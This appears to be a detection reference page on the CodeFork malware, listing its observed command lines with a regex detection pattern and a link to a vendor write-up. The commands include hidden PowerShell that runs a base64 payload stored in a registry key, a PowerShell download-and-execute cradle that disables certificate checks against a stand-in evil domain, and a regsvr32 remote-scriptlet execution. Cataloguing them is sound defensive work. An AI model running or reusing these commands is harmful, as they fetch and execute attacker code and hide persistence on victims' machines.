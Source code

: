 ## CodeFork




#### Commands
---

* Powershell.exe

``
-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\[Same Random Key]').[Random Value Name])));
``

``
-nop -ep Bypass -noexit -c [System.Net.ServicePointManager]: ServerCertificateValidationCallback = { $true }; iex ((New-Object System.Net.WebClient).DownloadString('https://somerandomevildomain.xx /somerandomflie'))
``

* Regsvr.exe

``
/s /u /i:http://xxx.somerandomevildomain.xx/evilpath.xml scrobj.dl
``

#### Regular Expressions
---

``
-WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String
``

#### Resources
---

Technical write-ups:
* https://security.radware.com/malware/codefork-malware/

Sandbox reports:
* 

Notes:



 
